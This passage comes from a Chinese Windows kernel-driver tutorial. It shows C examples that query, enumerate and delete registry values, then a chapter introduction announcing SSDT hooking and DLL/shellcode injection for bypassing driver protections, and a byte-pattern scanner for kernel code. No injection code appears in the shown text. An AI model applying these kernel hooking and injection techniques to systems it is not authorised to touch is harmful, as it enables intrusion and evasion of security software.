    pKeyValuePartialInfo = (PKEY_VALUE_PARTIAL_INFORMATION)ExAllocatePool(NonPagedPool, ulBufferSize);

    // 查询注册表键值并获取查询结果
    status = ZwQueryValueKey(hRegister, &ustrKeyValueName, KeyValuePartialInformation, pKeyValuePartialInfo, ulBufferSize, &ulBufferSize);
    if (!NT_SUCCESS(status))
    {
        ExFreePool(pKeyValuePartialInfo);
        ZwClose(hRegister);
        return FALSE;
    }
    // 显示查询结果
    DbgPrint("KeyValueName=%wZ, KeyValueType=%d, KeyValueData=%S\n", &ustrKeyValueName, pKeyValuePartialInfo->Type, pKeyValuePartialInfo->Data);

    // 释放内存, 关闭句柄
    ExFreePool(pKeyValuePartialInfo);
    ZwClose(hRegister);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    BOOLEAN flag = FALSE;
    DWORD get_dw = 0;

    PKEY_VALUE_PARTIAL_INFORMATION pkvi;

    // 查询设置
    flag = RegQueryValueKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"is_auth", &pkvi);
    if (flag == TRUE)
    {
        // 拷贝查询结果
        RtlCopyMemory(&get_dw, pkvi->Data, pkvi->DataLength);

        // 输出结果
        DbgPrint("[*] 查询结果: %d \n", get_dw);
        ExFreePool(pkvi);
    }

    // 第二种查询方式
    UNICODE_STRING ustrRegistry;
    UNICODE_STRING ustrKeyValueName;

    RtlInitUnicodeString(&ustrRegistry, L"\\Registry\\Machine\\Software\\LySharkKeysA");
    RtlInitUnicodeString(&ustrKeyValueName, L"is_auth");

    MyQueryRegistryKeyValue(ustrRegistry, ustrKeyValueName);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这段程序，将会查询`\\Registry\\Machine\\Software\\LySharkKeysA`下面的`is_auth`字段中的值，输出效果如下图所示；



#### 8.5.5 ZwEnumerateKey

枚举某个主键底部的子键值，实现对指定主键中所有的子键的枚举。

ZwEnumerateKey是Windows内核中的一个函数，用于列举指定注册表键下的子键。它通常被驱动程序使用来获取键列表，以及子键的数量和名称等信息。

以下是ZwEnumerateKey函数的一般形式：
```c
NTSTATUS ZwEnumerateKey(
  _In_ HANDLE                KeyHandle,
  _In_ ULONG                 Index,
  _In_ KEY_INFORMATION_CLASS KeyInformationClass,
  _Out_ PVOID                KeyInformation,
  _In_ ULONG                 Length,
  _Out_ PULONG               ResultLength
);
```

参数说明：

 - KeyHandle： 要列举子键的键的句柄（handle）。
 - Index： 指定要列举的子键的索引。
 - KeyInformationClass： 指定要获取的子键信息类型。
 - KeyInformation： 存储读取的子键信息的缓冲区。
 - Length： KeyInformation缓冲区的大小。
 - ResultLength： 实际读取的子键信息的大小。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwEnumerateKey函数之前，需要先打开要列举子键的键，获取其句柄。

在使用ZwEnumerateKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要列举子键的键是正确的，并且不会对系统造成不良影响。另外，需要确保KeyInformation缓冲区的大小足够，以存储读取的子键信息。

需要注意的是，ZwEnumerateKey函数只能用于列举单个键下的子键，如果需要列举多个键的子键，则需要自行实现循环操作。
```c
#include <ntifs.h>
#include <windef.h>

// 枚举子键
BOOLEAN EnumRegistrySubKey(WCHAR *MY_KEY_NAME)
{
    UNICODE_STRING RegUnicodeString;
    HANDLE hRegister;
    OBJECT_ATTRIBUTES objectAttributes;
    NTSTATUS ntStatus;
    ULONG ulSize, i;
    UNICODE_STRING uniKeyName;
    PKEY_FULL_INFORMATION pfi;

    // 初始化UNICODE_STRING字符串
    RtlInitUnicodeString(&RegUnicodeString, MY_KEY_NAME);

    // 初始化objectAttributes OBJ_CASE_INSENSITIVE(大小写敏感)
    InitializeObjectAttributes(&objectAttributes, &RegUnicodeString, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(ntStatus))
    {
        return FALSE;
    }

    // 第一次调用获取KEY_FULL_INFORMATION数据的长度
    ZwQueryKey(hRegister, KeyFullInformation, NULL, 0, &ulSize);
    pfi = (PKEY_FULL_INFORMATION)ExAllocatePool(PagedPool, ulSize);

    // 第二次调用获取KEY_FULL_INFORMATION数据的数据
    ZwQueryKey(hRegister, KeyFullInformation, pfi, ulSize, &ulSize);

    // 循环输出子键
    for (i = 0; i<pfi->SubKeys; i++)
    {
        PKEY_BASIC_INFORMATION pbi;

        // 第一次调用获取KEY_BASIC_INFORMATION数据的长度
        ZwEnumerateKey(hRegister, i, KeyBasicInformation, NULL, 0, &ulSize);
        pbi = (PKEY_BASIC_INFORMATION)ExAllocatePool(PagedPool, ulSize);

        // 第二次调用获取KEY_BASIC_INFORMATION数据的数据
        ZwEnumerateKey(hRegister, i, KeyBasicInformation, pbi, ulSize, &ulSize);

        uniKeyName.Length = (USHORT)pbi->NameLength;
        uniKeyName.MaximumLength = (USHORT)pbi->NameLength;
        uniKeyName.Buffer = pbi->Name;

        DbgPrint("[LyShark] 序号: %d | 子Key名: %wZ \n", i, &uniKeyName);
        ExFreePool(pbi);
    }
    ExFreePool(pfi);
    ZwClose(hRegister);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    WCHAR MY_KEY_NAME[] = L"\\Registry\\Machine\\Software";
    BOOLEAN flag = EnumRegistrySubKey(MY_KEY_NAME);

    if (flag == TRUE)
    {
        DbgPrint("[*] 枚举结束 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，则会枚举`\\Registry\\Machine\\Software`底部的所有子键值，输出效果图如下所示；



#### 8.5.6 ZwEnumerateValueKey

用于枚举子键下所有键值对的值，原理与上方枚举子键类似。

ZwEnumerateValueKey是Windows内核中的一个函数，用于列举指定注册表键下的所有值。它通常被驱动程序使用来获取键值列表，以及每个键值的名称、类型和数据等信息。

以下是ZwEnumerateValueKey函数的一般形式：
```c
NTSTATUS ZwEnumerateValueKey(
  _In_ HANDLE                KeyHandle,
  _In_ ULONG                 Index,
  _In_ KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
  _Out_ PVOID                KeyValueInformation,
  _In_ ULONG                 Length,
  _Out_ PULONG               ResultLength
);
```

参数说明：

 - KeyHandle： 要列举值的键的句柄（handle）。
 - Index： 指定要列举的值的索引。
 - KeyValueInformationClass： 指定要获取的值信息类型。
 - KeyValueInformation： 存储读取的值信息的缓冲区。
 - Length： KeyValueInformation缓冲区的大小。
 - ResultLength： 实际读取的值信息的大小。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwEnumerateValueKey函数之前，需要先打开要列举值的键，获取其句柄。

在使用ZwEnumerateValueKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要列举值的键是正确的，并且不会对系统造成不良影响。另外，需要确保KeyValueInformation缓冲区的大小足够，以存储读取的值信息。

需要注意的是，ZwEnumerateValueKey函数只能用于列举单个键下的所有值，如果需要列举多个键的所有值，则需要自行实现循环操作。
```c
#include <ntifs.h>
#include <windef.h>

// 枚举子键
BOOLEAN EnumegistrySubValue(WCHAR *MY_KEY_NAME)
{
    UNICODE_STRING RegUnicodeString;
    HANDLE hRegister;
    OBJECT_ATTRIBUTES objectAttributes;
    ULONG ulSize, i;
    UNICODE_STRING uniKeyName;
    PKEY_FULL_INFORMATION pfi;
    NTSTATUS ntStatus;

    // 初始化UNICODE_STRING字符串
    RtlInitUnicodeString(&RegUnicodeString, MY_KEY_NAME);

    // 初始化objectAttributes
    InitializeObjectAttributes(&objectAttributes, &RegUnicodeString, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(ntStatus))
    {
        return FALSE;
    }

    // 查询VALUE的大小
    ZwQueryKey(hRegister, KeyFullInformation, NULL, 0, &ulSize);
    pfi = (PKEY_FULL_INFORMATION)ExAllocatePool(PagedPool, ulSize);
    ZwQueryKey(hRegister, KeyFullInformation, pfi, ulSize, &ulSize);
    for (i = 0; i<pfi->Values; i++)
    {
        PKEY_VALUE_BASIC_INFORMATION pvbi;

        // 查询单个VALUE的大小
        ZwEnumerateValueKey(hRegister, i, KeyValueBasicInformation, NULL, 0, &ulSize);
        pvbi = (PKEY_VALUE_BASIC_INFORMATION)ExAllocatePool(PagedPool, ulSize);

        // 查询单个VALUE的详情
        ZwEnumerateValueKey(hRegister, i, KeyValueBasicInformation, pvbi, ulSize, &ulSize);
        uniKeyName.Length = (USHORT)pvbi->NameLength;
        uniKeyName.MaximumLength = (USHORT)pvbi->NameLength;
        uniKeyName.Buffer = pvbi->Name;

        DbgPrint("[*] 子键: %d | 名称: %wZ | ", i, &uniKeyName);
        if (pvbi->Type == REG_SZ)
        {
            DbgPrint("类型: REG_SZ \n");
        }
        else if (pvbi->Type == REG_MULTI_SZ)
        {
            DbgPrint("类型: REG_MULTI_SZ \n");
        }
        else if (pvbi->Type == REG_DWORD)
        {
            DbgPrint("类型: REG_DWORD \n");
        }
        else if (pvbi->Type == REG_BINARY)
        {
            DbgPrint("类型: REG_BINARY \n");
        }
        ExFreePool(pvbi);
    }

    ExFreePool(pfi);
    ZwClose(hRegister);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    WCHAR MY_KEY_NAME[] = L"\\Registry\\Machine\\Software\\LySharkKeysA";
    BOOLEAN flag = EnumegistrySubValue(MY_KEY_NAME);

    if (flag == TRUE)
    {
        DbgPrint("[*] 枚举结束 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上这段代码，则可枚举出`\\Registry\\Machine\\Software\\LySharkKeysA`底部的所有子键以及该子键的键值，输出效果如下图所示；



#### 8.5.7 ZwDeleteValueKey

用于删除指定键里面键值对的某个值。如果使用函数`RegDeleteKey`则删除键包括里面的所有值。

ZwDeleteValueKey是Windows内核中的一个函数，用于删除指定注册表键下的一个值。它通常被驱动程序使用来删除指定键下的一个值，以及释放该值占用的空间。

以下是ZwDeleteValueKey函数的一般形式：
```c
NTSTATUS ZwDeleteValueKey(
  _In_ HANDLE           KeyHandle,
  _In_ PUNICODE_STRING ValueName
);
```

参数说明：

 - KeyHandle： 要删除值的键的句柄（handle）。
 - ValueName： 要删除的值的名称，为Unicode字符串指针。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwDeleteValueKey函数之前，需要先打开要删除值的键，获取其句柄。

在使用ZwDeleteValueKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要删除的值是正确的，并且不会对系统造成不良影响。

需要注意的是，ZwDeleteValueKey函数只能用于删除单个键下的一个值，如果需要删除多个键的多个值，则需要自行实现循环操作。
```c
#include <ntifs.h>
#include <windef.h>

// 删除键中的值
BOOLEAN RegDeleteValueKey(LPWSTR KeyName, LPWSTR ValueName)
{
    OBJECT_ATTRIBUTES objectAttributes;
    UNICODE_STRING usKeyName, usValueName;
    NTSTATUS ntStatus;
    HANDLE hRegister;
    RtlInitUnicodeString(&usKeyName, KeyName);
    RtlInitUnicodeString(&usValueName, ValueName);

    InitializeObjectAttributes(&objectAttributes, &usKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (NT_SUCCESS(ntStatus))
    {
        ntStatus = ZwDeleteValueKey(hRegister, &usValueName);
        ZwFlushKey(hRegister);
        ZwClose(hRegister);
        return TRUE;
    }
    else
    {
        return FALSE;
    }
    return FALSE;
}

// 删除注册表键值
BOOLEAN MyDeleteRegistryKeyValue(UNICODE_STRING ustrRegistry, UNICODE_STRING ustrKeyValueName)
{
    HANDLE hRegister = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;
    // 打开注册表键
    InitializeObjectAttributes(&objectAttributes, &ustrRegistry, OBJ_CASE_INSENSITIVE, NULL, NULL);
    status = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 删除注册表键
    status = ZwDeleteValueKey(hRegister, &ustrKeyValueName);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hRegister);
        return FALSE;
    }

    // 关闭注册表键句柄
    ZwClose(hRegister);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    // 删除值
    BOOLEAN flag = RegDeleteValueKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"is_auth");

    if (flag == TRUE)
    {
        DbgPrint("[*] 删除子键 \n");
    }

    UNICODE_STRING ustrRegistry;
    UNICODE_STRING ustrKeyValueName;

    RtlInitUnicodeString(&ustrRegistry, L"\\Registry\\Machine\\Software\\LySharkKeysA");
    RtlInitUnicodeString(&ustrKeyValueName, L"is_trhe");
    flag = MyDeleteRegistryKeyValue(ustrRegistry, ustrKeyValueName);
    if (flag == TRUE)
    {
        DbgPrint("[*] 删除子键 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上驱动程序，则会将`\\Registry\\Machine\\Software\\LySharkKeysA`里面的`is_trhe`以及`is_auth`删除，效果图如下所示；



## 第九篇：内核PE结构与注入

本章主要讲解PE结构解析相关技术，这些技术对于驱动开发和安全研究都是非常重要的。在本章中，我们将深入学习如何扫描PE代码段，解析PE结构导出表和节表，以及实现内核虚拟地址和文件偏移地址之间的转换方法。我们还将学习如何实现SSDT的挂钩和钩子摘除技术，以及如何扫描SSDT函数地址的挂钩状态。此外，我们还将学习如何灵活地与RVA地址进行转换，并实现多种DLL和ShellCode代码注入技术，包括劫持RIP实现注入、远程线程实现DLL注入、通过LoadLibrary实现的DLL注入以及ShellCode注入等技术。这些技术可以帮助我们突破驱动保护，对于安全从业者来说是必不可少的技能。

当涉及到内核级别的PE结构解析时，我们需要了解PE文件的基本结构和内部布局。PE文件是Windows操作系统下的一种可执行文件格式，它包含了一个程序的所有信息，包括代码，数据，资源以及导入导出函数等。在内核级别，我们可以通过访问PE结构，实现很多有用的操作，如挂钩函数，注入代码，以及分析恶意软件等。本章中，我们将深入探讨如何在内核中解析PE文件，以及如何利用PE结构进行各种操作。

本章主要分为以下几个部分：

 - PE结构的基本解析：在这一部分，我们将深入了解PE文件的基本结构，并介绍如何通过内核API函数访问PE结构，如如何得到PE头部信息，如何解析导出表和节表，以及如何转换虚拟地址和文件偏移地址。

 - SSDT函数挂钩与钩子摘除技术：系统服务描述表（SSDT）是Windows操作系统内部的一个重要结构，它包含了操作系统中所有系统调用的入口地址。恶意软件经常利用SSDT函数挂钩技术来隐藏自己，或者实现其他恶意行为。在这一部分，我们将介绍如何在内核中挂钩SSDT函数，并通过钩子摘除技术去除挂钩。

 - 导出表灵活的与RVA地址转换：导出表是PE文件中非常重要的结构，它包含了DLL文件中所有导出函数的地址和名称。在这一部分，我们将介绍如何在内核中解析导出表，以及如何利用导出表对DLL文件进行灵活的注入。

 - 注入技术：注入是一种非常重要的技术，它可以让我们将自己的代码注入到一个正在运行的进程中。在这一部分，我们将介绍多种注入技术，如如何劫持RIP实现注入，远程线程实现DLL注入，以及如何通过LoadLibrary实现DLL注入以及ShellCode注入等技术。这些技术可以帮助我们突破驱动保护，并且在分析和处理恶意软件时非常有用。

总之，在本章中，我们将深入了解PE文件的内部结构，并探讨如何利用PE结构实现各种内核级别操作。这些技术将对内核级别的驱动开发和恶意软件分析有着重要的意义。

### 9.1 内核特征扫描PE代码段

在笔者上一篇文章`《内核特征码搜索函数封装》`中为了定位特征的方便我们封装实现了一个可以传入数组实现的`SearchSpecialCode`定位函数，该定位函数其实还不能算的上简单，本章`LyShark`将对特征码定位进行简化，让定位变得更简单，并运用定位代码实现扫描内核PE的`.text`代码段，并从代码段中得到某个特征所在内存位置。

内核特征扫描是指在内核层面对PE文件的代码段进行扫描，检测是否包含特定的指令序列或者特征码。它通常用于防病毒软件、防作弊软件和安全监控等方面。

内核特征扫描的实现一般包括以下几个步骤：

 - 在内核层面获取PE文件的代码段地址和大小。
 - 对代码段进行遍历，获取每个指令的机器码。
 - 比对机器码和预定义的特征码或者指令序列。
 - 如果存在匹配的特征码或指令序列，则进行相应的处理，如通知用户或者禁止执行该代码段。

内核特征扫描需要考虑多种因素，如扫描效率、准确性和对系统性能的影响等。在实际开发中，一般需要针对具体应用场景进行优化。同时，由于扫描的代码段可能包含恶意代码，因此在实现过程中需要考虑安全性。

老样子为了后续教程能够继续，先来定义一个`lyshark.h`头文件，该头文件中包含了我们本篇文章所必须要使用到的结构体定义，这些定义的函数如果不懂请去看`LyShark`以前的文章，这里就不罗嗦了。
```c
#include <ntifs.h>
#include <ntimage.h>

typedef struct _KLDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY64 InLoadOrderLinks;
    ULONG64 __Undefined1;
    ULONG64 __Undefined2;
    ULONG64 __Undefined3;
    ULONG64 NonPagedDebugInfo;
    ULONG64 DllBase;
    ULONG64 EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG   Flags;
    USHORT  LoadCount;
    USHORT  __Undefined5;
    ULONG64 __Undefined6;
    ULONG   CheckSum;
    ULONG   __padding1;
    ULONG   TimeDateStamp;
    ULONG   __padding2;
}KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;

typedef struct _RTL_PROCESS_MODULE_INFORMATION
{
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR  FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES
{
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemBasicInformation = 0x0,
    SystemProcessorInformation = 0x1,
    SystemPerformanceInformation = 0x2,
    SystemTimeOfDayInformation = 0x3,
    SystemPathInformation = 0x4,
    SystemProcessInformation = 0x5,
    SystemCallCountInformation = 0x6,
    SystemDeviceInformation = 0x7,
    SystemProcessorPerformanceInformation = 0x8,
    SystemFlagsInformation = 0x9,
    SystemCallTimeInformation = 0xa,
    SystemModuleInformation = 0xb,
    SystemLocksInformation = 0xc,
    SystemStackTraceInformation = 0xd,
    SystemPagedPoolInformation = 0xe,
    SystemNonPagedPoolInformation = 0xf,
    SystemHandleInformation = 0x10,
    SystemObjectInformation = 0x11,
    SystemPageFileInformation = 0x12,
    SystemVdmInstemulInformation = 0x13,
    SystemVdmBopInformation = 0x14,
    SystemFileCacheInformation = 0x15,
    SystemPoolTagInformation = 0x16,
    SystemInterruptInformation = 0x17,
    SystemDpcBehaviorInformation = 0x18,
    SystemFullMemoryInformation = 0x19,
    SystemLoadGdiDriverInformation = 0x1a,
    SystemUnloadGdiDriverInformation = 0x1b,
    SystemTimeAdjustmentInformation = 0x1c,
    SystemSummaryMemoryInformation = 0x1d,
    SystemMirrorMemoryInformation = 0x1e,
    SystemPerformanceTraceInformation = 0x1f,
    SystemObsolete0 = 0x20,
    SystemExceptionInformation = 0x21,
    SystemCrashDumpStateInformation = 0x22,
    SystemKernelDebuggerInformation = 0x23,
    SystemContextSwitchInformation = 0x24,
    SystemRegistryQuotaInformation = 0x25,
    SystemExtendServiceTableInformation = 0x26,
    SystemPrioritySeperation = 0x27,
    SystemVerifierAddDriverInformation = 0x28,
    SystemVerifierRemoveDriverInformation = 0x29,
    SystemProcessorIdleInformation = 0x2a,
    SystemLegacyDriverInformation = 0x2b,
    SystemCurrentTimeZoneInformation = 0x2c,
    SystemLookasideInformation = 0x2d,
    SystemTimeSlipNotification = 0x2e,
    SystemSessionCreate = 0x2f,
    SystemSessionDetach = 0x30,
    SystemSessionInformation = 0x31,
    SystemRangeStartInformation = 0x32,
    SystemVerifierInformation = 0x33,
    SystemVerifierThunkExtend = 0x34,
    SystemSessionProcessInformation = 0x35,
    SystemLoadGdiDriverInSystemSpace = 0x36,
    SystemNumaProcessorMap = 0x37,
    SystemPrefetcherInformation = 0x38,
    SystemExtendedProcessInformation = 0x39,
    SystemRecommendedSharedDataAlignment = 0x3a,
    SystemComPlusPackage = 0x3b,
    SystemNumaAvailableMemory = 0x3c,
    SystemProcessorPowerInformation = 0x3d,
    SystemEmulationBasicInformation = 0x3e,
    SystemEmulationProcessorInformation = 0x3f,
    SystemExtendedHandleInformation = 0x40,
    SystemLostDelayedWriteInformation = 0x41,
    SystemBigPoolInformation = 0x42,
    SystemSessionPoolTagInformation = 0x43,
    SystemSessionMappedViewInformation = 0x44,
    SystemHotpatchInformation = 0x45,
    SystemObjectSecurityMode = 0x46,
    SystemWatchdogTimerHandler = 0x47,
    SystemWatchdogTimerInformation = 0x48,
    SystemLogicalProcessorInformation = 0x49,
    SystemWow64SharedInformationObsolete = 0x4a,
    SystemRegisterFirmwareTableInformationHandler = 0x4b,
    SystemFirmwareTableInformation = 0x4c,
    SystemModuleInformationEx = 0x4d,
    SystemVerifierTriageInformation = 0x4e,
    SystemSuperfetchInformation = 0x4f,
    SystemMemoryListInformation = 0x50,
    SystemFileCacheInformationEx = 0x51,
    SystemThreadPriorityClientIdInformation = 0x52,
    SystemProcessorIdleCycleTimeInformation = 0x53,
    SystemVerifierCancellationInformation = 0x54,
    SystemProcessorPowerInformationEx = 0x55,
    SystemRefTraceInformation = 0x56,
    SystemSpecialPoolInformation = 0x57,
    SystemProcessIdInformation = 0x58,
    SystemErrorPortInformation = 0x59,
    SystemBootEnvironmentInformation = 0x5a,
    SystemHypervisorInformation = 0x5b,
    SystemVerifierInformationEx = 0x5c,
    SystemTimeZoneInformation = 0x5d,
    SystemImageFileExecutionOptionsInformation = 0x5e,
    SystemCoverageInformation = 0x5f,
    SystemPrefetchPatchInformation = 0x60,
    SystemVerifierFaultsInformation = 0x61,
    SystemSystemPartitionInformation = 0x62,
    SystemSystemDiskInformation = 0x63,
    SystemProcessorPerformanceDistribution = 0x64,
    SystemNumaProximityNodeInformation = 0x65,
    SystemDynamicTimeZoneInformation = 0x66,
    SystemCodeIntegrityInformation = 0x67,
    SystemProcessorMicrocodeUpdateInformation = 0x68,
    SystemProcessorBrandString = 0x69,
    SystemVirtualAddressInformation = 0x6a,
    SystemLogicalProcessorAndGroupInformation = 0x6b,
    SystemProcessorCycleTimeInformation = 0x6c,
    SystemStoreInformation = 0x6d,
    SystemRegistryAppendString = 0x6e,
    SystemAitSamplingValue = 0x6f,
    SystemVhdBootInformation = 0x70,
    SystemCpuQuotaInformation = 0x71,
    SystemNativeBasicInformation = 0x72,
    SystemErrorPortTimeouts = 0x73,
    SystemLowPriorityIoInformation = 0x74,
    SystemBootEntropyInformation = 0x75,
    SystemVerifierCountersInformation = 0x76,
    SystemPagedPoolInformationEx = 0x77,
    SystemSystemPtesInformationEx = 0x78,
    SystemNodeDistanceInformation = 0x79,
    SystemAcpiAuditInformation = 0x7a,
    SystemBasicPerformanceInformation = 0x7b,
    SystemQueryPerformanceCounterInformation = 0x7c,
    SystemSessionBigPoolInformation = 0x7d,
    SystemBootGraphicsInformation = 0x7e,
    SystemScrubPhysicalMemoryInformation = 0x7f,
    SystemBadPageInformation = 0x80,
    SystemProcessorProfileControlArea = 0x81,
    SystemCombinePhysicalMemoryInformation = 0x82,
    SystemEntropyInterruptTimingInformation = 0x83,
    SystemConsoleInformation = 0x84,
    SystemPlatformBinaryInformation = 0x85,
    SystemThrottleNotificationInformation = 0x86,
    SystemHypervisorProcessorCountInformation = 0x87,
    SystemDeviceDataInformation = 0x88,
    SystemDeviceDataEnumerationInformation = 0x89,
    SystemMemoryTopologyInformation = 0x8a,
    SystemMemoryChannelInformation = 0x8b,
    SystemBootLogoInformation = 0x8c,
    SystemProcessorPerformanceInformationEx = 0x8d,
    SystemSpare0 = 0x8e,
    SystemSecureBootPolicyInformation = 0x8f,
    SystemPageFileInformationEx = 0x90,
    SystemSecureBootInformation = 0x91,
    SystemEntropyInterruptTimingRawInformation = 0x92,
    SystemPortableWorkspaceEfiLauncherInformation = 0x93,
    SystemFullProcessInformation = 0x94,
    SystemKernelDebuggerInformationEx = 0x95,
    SystemBootMetadataInformation = 0x96,
    SystemSoftRebootInformation = 0x97,
    SystemElamCertificateInformation = 0x98,
    SystemOfflineDumpConfigInformation = 0x99,
    SystemProcessorFeaturesInformation = 0x9a,
    SystemRegistryReconciliationInformation = 0x9b,
    MaxSystemInfoClass = 0x9c,
} SYSTEM_INFORMATION_CLASS;

// 声明函数
NTSYSAPI PIMAGE_NT_HEADERS NTAPI RtlImageNtHeader(_In_ PVOID Base);
NTSTATUS NTAPI ZwQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength);

typedef VOID(__cdecl *PMiProcessLoaderEntry)(PKLDR_DATA_TABLE_ENTRY section, IN LOGICAL Insert);
typedef NTSTATUS(*NTQUERYSYSTEMINFORMATION)(IN ULONG SystemInformationClass, OUT PVOID SystemInformation, IN ULONG_PTR SystemInformationLength, OUT PULONG_PTR ReturnLength OPTIONAL);
```

我们继续，首先实现特征码字符串的解析与扫描实现此处`UtilLySharkSearchPattern`函数就是`LyShark`封装过的，这里依次介绍一下参数传递的含义。

 - pattern 用于传入一段字符串特征值`(以\x开头)`
 - len 代表输入特征码长度`(除去\x后的长度)`
 - base 代表扫描内存的基地址
 - size 代表需要向下扫描的长度
 - ppFound 代表扫描到首地址以后返回的内存地址

这段代码该如何使用，如下我们以定位`IoInitializeTimer`为例，演示`UtilLySharkSearchPattern`如何定位特征的，如下代码`pattern`变量中就是我们需要定位的特征值，`pattern_size`则是需要定位的特征码长度，在`address`地址位置向下扫描`128`字节，找到则返回到`find_address`变量内。
```c
#include "lyshark.h"

PVOID GetIoInitializeTimerAddress()
{
    PVOID VariableAddress = 0;
    UNICODE_STRING uioiTime = { 0 };

    RtlInitUnicodeString(&uioiTime, L"IoInitializeTimer");
    VariableAddress = (PVOID)MmGetSystemRoutineAddress(&uioiTime);
    if (VariableAddress != 0)
    {
        return VariableAddress;
    }
    return 0;
}

// 对指定内存执行特征码扫描
NTSTATUS UtilLySharkSearchPattern(IN PUCHAR pattern, IN ULONG_PTR len, IN const VOID* base, IN ULONG_PTR size, OUT PVOID* ppFound)
{
    // 计算匹配长度
    // 特征码扫描
    NT_ASSERT(ppFound != 0 && pattern != 0 && base != 0);
    if (ppFound == 0 || pattern == 0 || base == 0)
    {
        return STATUS_INVALID_PARAMETER;
    }

    __try
    {
        for (ULONG_PTR i = 0; i < size - len; i++)
        {
            BOOLEAN found = TRUE;
            for (ULONG_PTR j = 0; j < len; j++)
            {
                if (pattern[j] != ((PUCHAR)base)[i + j])
                {
                    found = FALSE;
                    break;
                }
            }

            if (found != FALSE)
            {
                *ppFound = (PUCHAR)base + i;
                DbgPrint("[LyShark.com] 特征码匹配地址: %p \n", (PUCHAR)base + i);
                return STATUS_SUCCESS;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return STATUS_UNHANDLED_EXCEPTION;
    }

    return STATUS_NOT_FOUND;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 返回匹配长度5
    CHAR pattern[] = "\x48\x89\x6c\x24\x10";
    PVOID *find_address = NULL;

    int pattern_size = sizeof(pattern) - 1;
    DbgPrint("匹配长度: %d \n", pattern_size);

    // 得到基地址
    PVOID address = GetIoInitializeTimerAddress();

    // 扫描特征
    NTSTATUS nt = UtilLySharkSearchPattern((PUCHAR)pattern, pattern_size, address, 128, &find_address);

    DbgPrint("[LyShark 返回地址 => ] 0x%p \n", (ULONG64)find_address);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序完成特征定位，并对比定位效果。



